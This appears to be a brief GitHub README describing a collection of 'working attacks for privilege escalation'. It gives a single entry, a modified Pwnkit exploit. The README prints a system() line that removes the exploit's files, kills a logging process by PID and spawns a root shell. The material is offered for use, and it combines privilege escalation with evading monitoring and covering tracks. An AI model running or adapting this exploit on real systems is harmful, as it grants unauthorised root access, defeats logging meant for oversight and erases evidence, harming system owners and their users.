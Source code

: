 # attacks
Collection of working Attacks for Priviledge escalation
1. Pwnkit Attack :::
  It has been modified to take the PID of a process and kill it, you can change the line as below to kill the process and get root shell
   system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit';kill -9 %d; echo 'Killed Logger';bin/sh\");\n"
